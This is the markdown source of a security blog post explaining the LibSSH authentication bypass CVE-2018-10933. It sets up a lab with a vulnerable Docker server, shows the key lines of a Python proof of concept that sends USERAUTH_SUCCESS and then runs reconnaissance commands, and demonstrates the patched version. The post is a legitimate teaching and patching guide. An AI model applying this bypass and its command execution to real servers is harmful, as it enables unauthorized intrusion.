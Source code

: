 ```yaml
---
slug: libssh-bypass-cve/
title: LibSSH New Vulnerability
date: 2018-10-18
category: attacks
subtitle: New vulnerability on libssh CVE-2018-10933
tags: cybersecurity, vulnerability, pentesting
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330935/blog/libssh-bypass-cve/cover_ad5zp7.webp
alt: Painting a red and blue wall
description: Here, we will explain a vulnerability that allows a remote attacker to bypass authentication by sending a user-authenticated packet to the server.
keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/d6YyP28-Ycw
---
```


The new vulnerability in `LibSSH`, tracked as
[CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt),
resides on the server code which can enable a client to bypass the
authentication process and create channels without permission. This
affects servers using versions `0.6` and above being used in server
mode.

The bug was discovered by Peter Winter-Smith of NCC Group, it’s like a
`jedi` trick:

- User: `Let me in`

- Server: NO

- User: `I’m authenticated, let me in`

- Server: OK, YOU’RE IN

Why does this happen? Because of the way `LibSSH` checks for
authentication when it receives an `SSH2_MSG_USERAUTH_SUCCESS` message
instead of the `SSH2_MSG_USERAUTH_REQUEST` message. It acts like the
user is already authenticated, so an attacker could bypass the
authentication and execute commands on the server.

## Building the enviroment

How does LibSSH work? It’s a `C` library to implement `SSHv2` protocol
on the client and server side. First, we need to write our server-side
code. We are going to use the sample that `LibSSH` has
(`samplesshd-cb.c`) and modify it for our purposes.

In the `ssh_channel_callbacks_struct` we are going to put the following
line in order to have the `exec` functionality:

**exec request.**

``` C
.channel_exec_request_function = exec_request
```

<div class="imgblock">

![channel-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/channel-exec_nkvv1s.webp)

</div>

Next, add the `exec_request` function, this will take our commands and
execute them on the server:

``` C
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
```

If you have `LibSSH` with version `0.7.4` you can simply save it,
compile it, and execute it. If not, you can use our method. We are going
to use a `docker` container and install both versions (a vulnerable one
and a patched one) and then, pass our code to the server and run it. The
example files can be downloaded [here](cve201810933.zip).

To build the container, open a `terminal` in the folder of the
`Dockerfile` and run this command:

``` bash
host$ docker build -t fluidattackscve201810933 .
```

This will download all the necessary files and compile all the sources
of `LibSSH`.

Then, to open the container simply run this command:

``` bash
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
```

This is going to mirror our port `2222` to the container port `2222` in
order to be able to run our tests. Also, it will open a `bash` terminal
on the container machine where we will run our `LibSSH` server.

## Exploiting the vulnerability

In this case, we are going to use `LibSSH v0.7.4` and test the solution
with `LibSSH v0.7.6`. The `PoC` is on `Python` version `2`, and you can
check its source
[here](https://www.openwall.com/lists/oss-security/2018/10/17/5), but if
you downloaded our files, it’s there as `exploit.py`.

In order to run this `PoC` you will need `paramiko`. You can install it
by running:

``` bash
host$ pip install paramiko
```

In the container, run the following command to start the vulnerable
`LibSSH` server:

``` bash
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

``` bash
host$ python exploit.py
```

If you check your container you can see this:

<div class="imgblock">

![ssh-bypass](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/ssh-bypass_zj8e91.webp)

</div>

When the server is expecting the `SSH2_MSG_USERAUTH_REQUEST`, we are
sending an `SSH2_MSG_USERAUTH_SUCCESS`.

``` python
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
```

The server accepts it, and we bypassed the authentication. Then, we can
send our commands to the server with:

``` python
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
```

<div class="imgblock">

![command-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/command-exec_yuqxav.webp)

</div>

## The solution

<div class="imgblock">

![dont-work](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/dont-work_qzntdl.webp)

</div>

The LibSSH version `0.7.6` doesn’t have this vulnerability. We can test
it, too, in our container. We just need to run:

``` bash
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

And on our machine the exploit again:

``` bash
host$ python exploit.py
```

<div class="imgblock">

![no-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

</div>

What’s happening? We send the `SSH2_MSG_USERAUTH_SUCCESS`. The server
receives it, but it won’t authenticate us because they added a
validation on their code. When the packet is
`SSH2_MSG_USERAUTH_SUCCESS`, then, it checks for the authentication
state. If it is not one of the valid states, it denies the packet.

<div class="imgblock">

![Code on src/packet.c](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/solution_uaqs60.webp)

<div class="title">

Figure 1. Code on src/packet.c

</div>

</div>

Here you can see the difference between responses for a vulnerable
version and a non-vulnerable one.

<div class="imgblock">

![Vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/vulnerable_mbwn5t.webp)

<div class="title">

Figure 2. Vulnerable

</div>

</div>

<div class="imgblock">

![Non-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

<div class="title">

Figure 3. Non-vulnerable

</div>

</div>

If you have `LibSSH` in your server, and you are using a server
component, you should install the updated, or patched, versions of
`LibSSH`.
